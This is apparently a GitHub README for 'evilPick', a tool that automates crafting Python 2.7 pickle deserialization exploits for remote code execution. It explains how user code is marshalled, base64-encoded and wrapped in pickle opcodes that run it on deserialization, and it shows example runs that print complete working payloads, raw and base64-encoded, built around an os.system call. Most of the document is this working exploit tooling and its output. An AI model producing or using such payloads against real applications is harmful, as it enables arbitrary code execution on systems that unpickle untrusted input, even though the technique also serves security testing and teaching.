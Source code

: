 # evilPick
An Exploit Crafter to achieve Pickle Deserialization Remote Code Execution 
Just provide the wanted to execute code and you're on the go.

It aims to automate in a simple way Exploit Crafting from python2.7 code files.
### Know How
The main part of the exploit is written in  pickle machine language in order to invoke, on deserialization, the code provided by the user.

In particular the passed code is serialized with Marshall library, base64 encoded and put into the pickle machine code which
when deserialized will do this :
- base64 decode the payload 
- marshal load the payload (in order to deserialize the code)
- statically build a function, inject the payload code in it
- call that function

## options 
- -f --foo  file_name.py  
craft an exploit that, on deserialization, will execute the given python2.7 code   
- -e --encode base64/hex 
encode the crafted exploit in base64 or hex 
- -s --file  new_file
the crafted exploit is then saved in a file
- -d --dynamic
dynamically write your python code and hit CTRL-C in a new line to end the code


## Examples
example.py code :
```python
import os
os.system("echo Hello World")
```
running evilPick passing the example.py file :
```sh
$ python evilPick.py --foo example.py 
___________________________________________________________
[^] Do you want to encode it? ( base64 or hex,leave for unicode) :        
[*] Crafted Evil Packet: 

ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAABAAAAAgAAAEMAAABzHQAAAGQBAGQAAGwAAH0AAHwAAGoBAGQCAIMBAAFkAABTKAMAAABOaf////9zEAAAAGVjaG8gSGVsbG8gV29ybGQoAgAAAHQCAAAAb3N0BgAAAHN5c3RlbSgBAAAAUgAAAAAoAAAAACgAAAAAcwgAAAA8c3RyaW5nPnQDAAAAZm9vAQAAAHMEAAAAAAEMAQ=='
tRtRc__builtin__
globals
(tRS''
tR(tR.

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  y
[^] Insert exploit name: example_exploit
[*] Writing it in example_exploit

__________________________Job_Done_________________________
```
running evilPick in dynamic mode with encode base64 option :
```sh
$ python evilPick.py -d -e base64 
___________________________________________________________
[*] Write code till SIGINT, have fun!

|import os
|os.system("echo Hello World!")
|^C

___________________________________________________________
[*] Crafted Evil Packet: 

Y3R5cGVzCkZ1bmN0aW9uVHlwZQooY21hcnNoYWwKbG9hZHMKKGNiYXNlNjQKYjY0ZGVjb2RlCihTJ1l3QUFBQUFCQUFBQUFnQUFBRU1BQUFCekhRQUFBR1FCQUdRQUFHd0FBSDBBQUh3QUFHb0JBR1FDQUlNQkFBRmtBQUJUS0FNQUFBQk9hZi8vLy85ekVRQUFBR1ZqYUc4Z1NHVnNiRzhnVjI5eWJHUWhLQUlBQUFCMEFnQUFBRzl6ZEFZQUFBQnplWE4wWlcwb0FRQUFBRklBQUFBQUtBQUFBQUFvQUFBQUFITUlBQUFBUEhOMGNtbHVaejUwQXdBQUFHWnZid0VBQUFCekJBQUFBQUFCREFFPScKdFJ0UmNfX2J1aWx0aW5fXwpnbG9iYWxzCih0UlMnJwp0Uih0Ui4=

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  n
```
running evilPick in quick mode providing : example.py (source code), encode schema base64 and destination file 
```sh
python evilPick.py -f example.py -e base64 -s new_exploit
___________________________________________________________
[*] Crafted Evil Packet: 

Y3R5cGVzCkZ1bmN0aW9uVHlwZQooY21hcnNoYWwKbG9hZHMKKGNiYXNlNjQKYjY0ZGVjb2RlCihTJ1l3QUFBQUFCQUFBQUFnQUFBRU1BQUFCekhRQUFBR1FCQUdRQUFHd0FBSDBBQUh3QUFHb0JBR1FDQUlNQkFBRmtBQUJUS0FNQUFBQk9hZi8vLy85ekVBQUFBR1ZqYUc4Z1NHVnNiRzhnVjI5eWJHUW9BZ0FBQUhRQ0FBQUFiM04wQmdBQUFITjVjM1JsYlNnQkFBQUFVZ0FBQUFBb0FBQUFBQ2dBQUFBQWN3Z0FBQUE4YzNSeWFXNW5QblFEQUFBQVptOXZBUUFBQUhNRUFBQUFBQUVNQVE9PScKdFJ0UmNfX2J1aWx0aW5fXwpnbG9iYWxzCih0UlMnJwp0Uih0Ui4=

___________________________________________________________
[*] Writing it in new_exploit

__________________________Job_Done_________________________
```

# Author
Lacerenza Francesco - Systems and Networks Security 
twitter: [@lacerenza_fra](https://twitter.com/lacerenza_fra)
linkedin: [lacerenzafrancesco](https://www.linkedin.com/in/francesco-lacerenza/)
